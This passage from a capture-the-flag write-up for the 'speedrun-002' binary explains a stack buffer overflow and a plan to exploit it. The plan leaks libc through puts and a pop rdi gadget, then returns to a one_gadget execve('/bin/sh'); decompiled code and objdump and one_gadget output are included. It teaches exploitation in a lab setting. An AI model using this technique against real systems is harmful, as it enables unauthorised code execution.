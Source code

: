 So we can see that if we send the string `Everything intelligent is so boring.`, it will run the function `vuln()` with the address of `v2` as an argument (which is a `0x400` byte char array):

```
ssize_t __fastcall vuln(void *a1)
{
  puts("What an interesting thing to say.\nTell me more.");
  read(0, a1, 0x7DAuLL);
  return write(1, "Fascinating.\n", 0xDuLL);
}
```

Which in this function, we can see it will allow us to scan in `0x7da` bytes of data and get a buffer overflow (however we will get code execution when `callsVuln` returns). 

Since this is a dynamically linked binary, we can't just build a simple ROP chain like we did for speedrun-001. So what we will do is use puts to get a libc infoleak, call the vulnerable function again, then call a oneshot gadget.

Since puts is an imported function and there is no PIE, we can call puts. For an argument we will pass to it the got address of puts, which holds the libc address of puts. This will give us a libc infoleak. 

We can see puts is imported either in IDA, objdump, or some other binary analysis:

```
$	objdump -D speedrun-002 | grep puts
00000000004005b0 <puts@plt>:
  4006fd:	e8 ae fe ff ff       	callq  4005b0 <puts@plt>
  400718:	e8 93 fe ff ff       	callq  4005b0 <puts@plt>
  40075e:	e8 4d fe ff ff       	callq  4005b0 <puts@plt>
  4007b3:	e8 f8 fd ff ff       	callq  4005b0 <puts@plt>
  4007c6:	e8 e5 fd ff ff       	callq  4005b0 <puts@plt>
```

Also when we call puts, we will use a `pop rdi` rop gadget to prep the argument for it (check the writeup for speedrun-001 for more details on that).

After that we will call `0x40074c`, which is the start of the `callsVuln` function. Then we will just do the overflow again except set the return address to be equal to that of a oneshot gadget. A oneshot gadget is essentially a single rop gadget in the libc, that we can call to get a shell (can find it here: https://github.com/david942j/one_gadget ).

We can find the available oneshot gadgets like so:
```
$	one_gadget libc-2.27.so 
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
